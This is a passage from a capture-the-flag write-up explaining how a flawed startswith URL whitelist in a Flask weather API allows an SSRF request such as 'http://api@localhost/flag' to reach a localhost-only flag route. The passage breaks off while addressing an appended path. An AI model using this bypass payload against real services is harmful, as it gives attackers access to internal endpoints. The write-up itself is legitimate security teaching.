 As you can see, it checks our parameter `url` is start with `http://api` (`WHITELIST_API_URL`) or not. If it's not, it'll return JSON object `{'message': 'Invalid API URL.'}`. Unfortunately, this validation is flawed.

In the [`startswith`](https://docs.python.org/3/library/stdtypes.html#str.startswith) function, the argument (`WHITELIST_API_URL`) is the substring of the target string `url`. Since `WHITELIST_API_URL` is a constant value, we can change the target string to match the substring like the follownig:

```shell
┌[siunam♥Mercury]-(~/ctf/PUCTF-2025/Web-Exploitation/JSON-My-Soul)-[2025.04.29|14:50:29(HKT)]
└> python3
[...]
>>> WHITELIST_API_URL = 'http://api'
>>> url = 'http://apianything'
>>> url.startswith(WHITELIST_API_URL)
True
```

Hmm... How can we leverage this flawed validation into something useful to us?

### SSRF as a Service

In the whitelisted API URL, it's missing a forward slash (`/`) character at the end, which means we can make the `api` domain as a user information subcomponent ([RFC 3986 3.2.1. User Information](https://datatracker.ietf.org/doc/html/rfc3986#section-3.2.1)) and make the URL's host (domain) as `localhost` to perform SSRF (Server-Side Request Forgery) attack.

> SSRF vulnerability refers to a flaw that allows attackers to access internal services.

But hang on, which port should we access? If we take a look at `frontend/Dockerfile`, we can see that this Flask web application uses [Gunicorn](https://gunicorn.org/) as the [WSGI (Web Server Gateway Interface)](https://wsgi.readthedocs.io/en/latest/what.html). Most importantly, this application is listening on all network interfaces (`0.0.0.0`) on port `80`:

```bash
[...]
CMD ["gunicorn", "-w", "4", "app:app", "-b 0.0.0.0:80"]
```

With that said, we should access port `80` in our payload.

To get the flag, we could send the following GET request:

```http
GET /api/weather?url=http://api@localhost/flag HTTP/1.1
Host: chal.polyuctf.com:41342


```

By doing so, the GET route `/flag`'s `isClientAddressLocalhost` can be bypassed, because the `request.remote_addr` will be `127.0.0.1` (`localhost`).

However, the above payload shouldn't work, as the route will append `/api/weather` (`API_ENDPOINT`) to our path:

```python
API_ENDPOINT = '/api/weather'
[...]
@app.route(API_ENDPOINT, methods=['GET'])
def getWeatherInformation():
    url = request.args.get('url', WHITELIST_API_URL).lower().strip()
    [...]
    try:
        apiResponse = requests.get(f'{url}{API_ENDPOINT}', allow_redirects=False)
        apiJsonData = apiResponse.json()
    except:
        return jsonify({'message': 'Something went wrong with the API service. Sorry!'})
    [...]
```
